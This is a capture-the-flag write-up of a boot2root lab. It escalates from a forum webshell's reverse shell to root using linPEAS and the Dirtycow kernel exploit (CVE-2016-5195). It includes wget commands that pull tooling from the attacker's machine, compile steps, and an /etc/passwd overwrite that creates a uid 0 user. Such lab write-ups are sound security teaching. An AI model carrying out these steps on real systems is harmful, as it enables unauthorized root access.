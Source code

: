 # Writeup 2 - kernel exploit
This writeup start using the same road as the writeup 1.\
Let's go forward after obtaining the reverse shell from the webshell in the forum.

![](/ressources/image-2-1.png)
<center>Reverse shell from webshell in the forum</center>

\
We used [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to enumerate the target machine vulnerabilities.

First we need to send the script to the boot2root machine.
```bash
# on kali machine
python -m http.server 9090
# on boot2root vm
wget http://<kali ip>/linpeas.sh 
```

`sh linpeas.sh`

After the result inspection, we notine a highly probable vulnerability that can lead to a privilege escalation.

![](/ressources/image-2-4.png)
<center> Disclosure of a potential kernel vulnerability  </center>


## Dirtycow - CVE-2016-5195

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could exploit this vulnerability to gain write access to otherwise read-only memory mappings and thus obtain the highest privileges on the system. 

[More details about the vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195)

We used the following [poc](https://github.com/firefart/dirtycow) to add a new user in the **/etc/passwd** file.


First we need to send the exploit to the boot2root machine.
```bash
# on kali machine
python -m http.server 9090
# on boot2root vm
wget http://<kali ip>/dirty.c
```

Then we can compile the exploit and run it.

`gcc -pthread dirty.c -o dirtycow -lcrypt`

This exploit will automatically generates a new passwd line. The user will be prompted for the new password when the binary is run. The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line. After running the exploit we should be able to login with the newly created user.

![](./ressources/image-2-2.png)
<center>Run the exploit with <strong>firefart:test</strong> credentials </center>

We can now login to the new root user added.

`su firefart`

And voila ! We now can go to root's home and we find a README congratulating us.

![](./ressources/image-2-3.png)
<center> Login on <strong>firefart</strong> with uid=0 </center>